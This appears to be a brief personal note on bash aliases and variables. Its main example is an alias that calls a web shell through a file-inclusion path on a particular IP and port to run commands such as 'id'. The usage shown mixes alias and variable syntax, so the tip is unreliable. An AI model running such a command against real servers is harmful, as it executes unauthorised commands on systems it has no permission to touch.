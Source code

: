 ```yaml
---
{"dg-publish":true,"permalink":"/programming/bash-stuff/aliases-and-variables/"}
---
```



Sometimes it's nice to alias a long command. One of the examples was:

`alias cs='curl -s http://209.97.185.157:32726/index.php?language=./profile_images/shell.gif&cmd='`

and 
`alias fl='sed -n '\''/<h2>Containers<\/h2>/,/<p class="read-more">/p'\'

Then you could use this with a command by entereing:
${cs}id | fl

It took me a while to find out how to make it so that bash wouldn't insert a space between the end of the alias and the command.
